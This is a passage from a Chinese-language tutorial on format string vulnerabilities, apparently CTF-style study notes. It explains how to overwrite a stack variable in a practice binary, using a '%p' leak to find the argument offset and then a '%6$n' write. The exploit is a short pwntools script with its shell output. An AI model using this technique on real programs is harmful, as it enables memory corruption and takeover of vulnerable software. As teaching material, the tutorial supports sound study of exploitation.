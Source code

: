 ### 覆盖栈内存

首先想办法让第一个if成立，也就是我们要覆盖变量c的值。

总的思路如下：

```
...[overwrite addr]....%[overwrite offset]$n
```

- 确定覆盖地址
- 确定相对偏移
- 进行覆盖

覆盖的地址，也就是c的地址，已经printf打印出来了。接下来就是找相对偏移，和之前的泄露一样：

```shell
feng@ubuntu: ~/Desktop$ ./overwrite
0xffc1703c
aaaa%p-%p-%p-%p-%p-%p-%p-%p
aaaa0xffc16fd8-0xc2-0xf7e1579b-0xffc16ffe-0xffc170fc-0x61616161-0x252d7025-0x70252d70feng@ubuntu: ~/Desktop$ 
```

可以发现是第6个参数（printf函数的第七个参数）。所以就是`%6$n`。

n的作用上面提到了，就是不输出字符，但是把已经成功输出的字符个数写入对应的整型指针参数所指的变量。



因此也就是把已经输出的字符个数写入printf函数的第n+1个参数所指的变量。

地址是4字节，想让c是16，因此还需要输出12个字符，构造一下exp：

```python
from pwn import *
from LibcSearcher import *
#context(log_level="debug",arch="i386",os="linux")
context(log_level="debug",os="linux")
p = process('./overwrite')
c_addr = int(p.recvuntil("\n",drop=True),16)

payload = flat([c_addr,'a'*12,'%6$n'])
p.sendline(payload)
print(p.recv())

```

![image-20220117163055655](格式化字符串学习.assets/image-20220117163055655.png)
